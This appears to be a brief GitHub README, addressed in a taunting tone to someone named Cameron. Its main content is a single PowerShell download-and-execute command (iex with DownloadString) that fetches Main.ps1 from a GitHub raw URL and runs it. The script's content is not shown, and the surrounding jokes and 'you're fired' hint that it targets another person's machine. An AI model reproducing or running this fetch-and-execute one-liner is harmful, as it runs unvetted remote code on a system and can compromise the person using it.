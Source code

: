 # YWTTC = You Won This Time Cameron!
# 12 Hours shifts succ
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
But we all know who's gonna be the ultimate winner!!
Also, you're fired!
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
